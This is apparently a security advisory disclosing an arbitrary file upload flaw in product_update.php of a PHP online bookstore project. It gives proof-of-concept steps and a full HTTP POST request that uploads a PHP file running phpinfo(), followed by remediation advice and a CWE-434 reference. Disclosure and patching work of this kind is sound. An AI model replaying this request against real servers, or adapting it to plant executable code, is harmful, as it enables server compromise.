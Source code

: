 # keerti1924 / Online-Book-Store-Website - product_update.php Arbitrary FIle Upload

## Vendor Homepage:
[Online-Book-Store-Website](https://github.com/keerti1924/Online-Book-Store-Website)

## Impact
The product_update.php script in keerti1924's Online-Book-Store-Website allows for arbitrary file uploads, potentially leading to remote code execution or other security breaches. By exploiting this vulnerability, an authenticated admin user can upload malicious files, such as PHP scripts, to the server, allowing them to execute arbitrary code and compromise the system.

## Proof of Concept
Step 1: Login as an admin\
Step 2: Go to products section\
Step 3: Edit any product\
Step 4: Choose any file to upload\
Step 5: Update book\
Step 6: The file will be stored in the /uploaded_img directory on the server.\

## HTTP Request Example
```http request
POST /product_update.php?update=1 HTTP/2
Host: [REDACTED]
Cookie: PHPSESSID=[REDACTED];
Content-Length: 853
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="121", "Not A(Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryczeIpXB0W8h41atA
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=0, i

------WebKitFormBoundaryczeIpXB0W8h41atA
Content-Disposition: form-data; name="update_p_id"

1
------WebKitFormBoundaryczeIpXB0W8h41atA
Content-Disposition: form-data; name="update_old_image"

hua.php
------WebKitFormBoundaryczeIpXB0W8h41atA
Content-Disposition: form-data; name="update_image"; filename="nochizplz.php"
Content-Type: text/php

<?php phpinfo(); ?>

------WebKitFormBoundaryczeIpXB0W8h41atA
Content-Disposition: form-data; name="update_name"

The Thirteenth Tale
------WebKitFormBoundaryczeIpXB0W8h41atA
Content-Disposition: form-data; name="update_author"

Diane Setterfield
------WebKitFormBoundaryczeIpXB0W8h41atA
Content-Disposition: form-data; name="update_price"

55
------WebKitFormBoundaryczeIpXB0W8h41atA
Content-Disposition: form-data; name="update_product"


------WebKitFormBoundaryczeIpXB0W8h41atA--
```

## Proof with screenshot
![Screenshot](https://github.com/skid-nochizplz/skid-nochizplz/blob/main/TrashBin/CVE/keerti1924%20Online-Book-Store-Website/File%20Upload/Arbitrary%20FIle%20Upload%20in%20product_update.php%20Screenshot%20.png?raw=true)

## Remidiation
To mitigate this issue, implement proper input validation and file upload restrictions on the server-side. Only allow uploads of authorized file types and enforce strict file permissions to prevent execution of uploaded files as scripts. Additionally, consider implementing file upload scanning and validation mechanisms to detect and prevent the upload of malicious files.

## CWE
[CWE-434: Unrestricted Upload of File with Dangerous Type](https://cwe.mitre.org/data/definitions/434.html)